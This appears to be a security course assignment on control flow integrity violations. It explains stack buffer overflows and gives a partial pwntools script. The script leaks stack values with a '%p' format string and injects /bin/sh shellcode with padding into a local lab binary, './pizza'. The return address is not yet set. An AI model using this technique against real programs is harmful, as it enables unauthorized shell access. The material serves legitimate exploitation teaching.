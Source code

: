 # Control Flow Integrity Violation

The goal of this assignment is to write a python script using `pwntools` that executes the given program, leaks the stack offset, and spawns a shell. Through this exercise, we delve into the realm of control flow integrity violations, where unexpected inputs manipulate the program's execution flow, potentially leading to unauthorized access or unintended behavior.

We've learned about library injection, using a loader program to force another program into loading a library in a new thread. You've also created shellcode. There is a more direct method of injecting shellcode into vulnerable processes. The method involves giving unexpected input to a program that ends up altering what is in the instruction pointer register. With control of the IP register, attackers can make the program do whatever they want. There are many ways of doing this, but we will start with one of the oldest and simplest for this assignment: a buffer overflow.

Remember that the stack grows from large addresses towards smaller ones. However, arrays and strings are read from low addresses to high addresses. When a programmer allows more data to be written to a buffer than that buffer can hold, it will start overwriting things *higher* on the stack. This obviously will cause undefined behavior or segmentation faults. Attackers can make that undefined behavior into something useful.

One of the entries stored higher on the stack is the return address where the current function will return to once it finishes running the current function and reaches a RET instruction. Attackers' goal in a buffer overflow is to overwrite that return address, because they know it will get loaded into the IP register!

From there, there are several techniques, but we are going to practice the simplest. It works by injecting shellcode also into the buffer, and making sure that the IP register gets pointed to the first address in that shellcode. Then, just like in the shellcode tester from last assignment, the shellcode will get executed by the program, calling execve and replacing the current program with a shell the attacker can use.

To pull this off we need 3 things:

1. We need to find out how many bytes after the beginning of the buffer are there before the return address.
2. We need to inject padding bytes plus a new return address, plus some shellcode.
3. We need to be able to predict at what address our shellcode will be so we can return to it.

````python3
#!/usr/bin/env python3

from pwn import *

def printStack(core):
    rsp = core.rsp
    stack_before_rsp = core.read(rsp - 22 * 8, 22 * 8)  # 22 elements before RSP
    stack_after_rsp = core.read(rsp, 22 * 8)  # 22 elements after RSP

    print("\nStack:")
    for i in range(0, len(stack_before_rsp), 8):
        address = rsp - 22 * 8 + i
        value = core.read(address, 8)
        arrow = "<---------- RSP" if address == rsp else "    "  # Point to RSP
        print(f"{hex(address)}\t{value}\t\t\t\t\t\t\t\t\t{arrow}")

    for i in range(0, len(stack_after_rsp), 8):
        address = rsp + i
        value = core.read(address, 8)
        arrow = "<---------- RSP" if address == rsp else "    "  # Point to RSP
        print(f"{hex(address)}\t{value}\t\t\t\t\t\t\t\t\t{arrow}")

# Executable and Linkable Format
elf = ELF("./pizza")

context(arch='amd64', os='linux', endian='little', word_size=64)

getname_address = elf.symbols["getname"]

#print(hex(getname_address))

#print(shellcraft.amd64.linux.sh())
#exit()

shellcode = asm(shellcraft.amd64.linux.sh())



input1 = b"%p %p %p %p %p %p %p %p %p"
# SHELL CODE + "A"*?? + NEW RET_ADDRESS
input2 = shellcode + b"A"*100


victim = process("./pizza")

print(str(victim.recvline(), "latin-1"))
victim.sendline(input1)
print(str(victim.recvline(), "latin-1"))
victim.sendline(b"10")
print(str(victim.recvline(), "latin-1"))
victim.sendline(input2)
print(str(victim.recvline(), "latin-1"))

victim.wait()
#victim.interactive()

core = victim.corefile

printStack(core)

# print(disasm(core.read(core.rip, 8)))
# print( core.read( core.rsp, 100))


exit()
```
